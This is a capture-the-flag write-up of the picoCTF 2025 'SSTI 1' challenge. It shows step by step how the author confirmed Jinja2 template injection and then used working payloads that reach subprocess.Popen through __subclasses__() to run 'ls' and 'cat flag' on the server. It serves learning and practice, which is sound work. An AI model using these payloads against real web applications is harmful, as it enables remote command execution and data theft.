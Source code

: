 # Challenge: SSTI 1

## Details

- Source: picoCTF 2025
- Category: Web Exploitation
- Difficulty: Easy
- Date Completed: 09.07.2025
- A website was provided


## Description

I made a cool website where you can announce whatever you want! Try it out!


## Hints

1. Server Side Template Injection


## Tools

No external tools were used. The exploitation was done manually through payload crafting and testing.


## Steps Taken

1. As hint suggested, I checked the given website for SSTI vulnerabilities by testing `{{7*7}}`. 

2. As expected, I got `49` as output. This confirmed SSTI as it showed the server evaluates user input.

3.  In order to ensure which template engine was used I tested `{{7*'7'}}`.

3. The output was `7777777`, suggesting a Python string behavior. With some further research, I came to a conclusion the template engine I was dealing with was Jinja2 (common in Flask apps), which is very vulnerable. 

4. To ensure it was Jinja2, I did further tests.

    -  `{{''.__class__}}` Expected output: `<class 'str'>`
    - '{{''.__class__.__mro__}} Expected output: `(<class 'str'>, <class 'object'>)

    These outputs confirmed once more that the user input runs Python code inside Jinja2

5. Next step was to find `subprocess.Popen` to execute shell commands. I used a loop to find the index of `Popen`:

    ```bash
    {% for c in 1.__class__.__mro__[1].__subclasses__() %}
          {% if 'Popen' in c.__name__ %}
             {{ loop.index0 }}: {{ c }}
         {% endif %}
    {% endfor %}
    ```

6. The loop found the index of the `Popen` which was 356.

7. I modified the payload to use `ls` command.
 
    ```bash
    {{ 1.__class__.__mro__[1].__subclasses__()[356]('ls', shell=True, stdout=-1).communicate() }}
    ```

8. The output showed a `flag` and a `requirements.txt`. As the name suggested, I read the content of the `flag` to obtain the flag. For this, I used the payload below.

    ```bash
    {{ 1.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate() }}
    ```


## What I learned

1. SSTI - Server Side Template Injections lets hackers to exploit a template'snative syntax and inject malicious payloads.

2. In order to detect SSTI, we can try a sequence of special symbols and see which sequence gives an error: `${{<%[%'"}}%`
From there, to indentify which template engine we are dealing with, we use a decision tree. Google research comes in handy here.

3. After identifying the template engine, it is important to look at the offical documentation and get familiar with the syntax, especially how to start and end print statements and control flows/block statements.

4. We can do further Google research to develop a payload. In my case, I learnt that in Jinja2 `subprocess.Popen` allows us to run shell commends. Therefore, my main goal was to locate its index.

5. In Python everything is an object. 

    - `__clas__` - shows the class of an object

    - `__mro__` - Method Resolution Order, returns a tuple showing inheritance chain

    - `__subclasses__()` - returns a list of all classes that inherit from a given class

6. Using this list of classes and understanding basic syntax of loops and conditions, I managed to find the index of `subprocess.Popen`

7. Using `Popen` it is possible to run shell commands. The syntax is as follows: `{{ 1.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate() }}`.

    - `'cat flag'` - is the command we want to execute
    - `shell=True` - run the command via the shell
    - `stdout=-1` - capture the standard output for us to read later
    - `communicate()` - waits for the command to finish and returns the output



## Helpful References

1. [Official Jinja2 Documentation](https://jinja.palletsprojects.com/en/stable/templates/)

2. [TryHackMe SSTI Room](https://tryhackme.com/room/learnssti)

3. [Server-Side Template Injections Explained](https://youtu.be/SN6EVIG4c-0?si=4Hp4zZ4L7YHILJv7)
 
